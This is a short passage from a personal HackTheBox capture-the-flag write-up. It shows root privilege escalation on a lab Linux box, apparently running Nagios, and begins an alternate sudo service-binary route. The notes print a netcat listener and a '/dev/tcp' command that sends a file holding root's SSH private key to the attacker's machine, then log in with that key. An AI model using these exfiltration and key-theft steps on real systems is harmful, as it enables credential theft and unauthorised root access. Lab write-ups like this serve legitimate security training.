 Find the cmdsubsys.txt file 

![[HackTheBox/Linux/attachments/Pasted image 20250506195658.png]]

Here's the file 

![[HackTheBox/Linux/attachments/Pasted image 20250506195729.png]]

And we have root's ssh key

![[HackTheBox/Linux/attachments/Pasted image 20250506195759.png]]

Login as root

```
nc lvnp 9001 > root
```

![[HackTheBox/Linux/attachments/Pasted image 20250506195902.png]]

Cat the cmdsubsys.txt file with root's ssh key and send the key over to kali box

```
cat cmdsubsys.txt > /dev/tcp/10.10.14.8/9001
```

Change the perms of the private key 

```
chmod 600 root
```

![[HackTheBox/Linux/attachments/Pasted image 20250506200134.png]]

SSH in as root user

```
ssh -i root root@10.10.11.248
```

![[HackTheBox/Linux/attachments/Pasted image 20250506200224.png]]

⭐ Got ROOT ⭐

![[HackTheBox/Linux/attachments/Pasted image 20250506200253.png]]

### Alternate Priv Esc - Replace Service Binary
Overwriting the Nagios Binary than using Sudo to restart the service to get a root shell

Run `sudo -l`

![[HackTheBox/Linux/attachments/Pasted image 20250506205947.png]]
- Notice `manage_services.sh`

Check out `manage_services.sh`

![[HackTheBox/Linux/attachments/Pasted image 20250506210220.png]]
- This lets us restart nagios
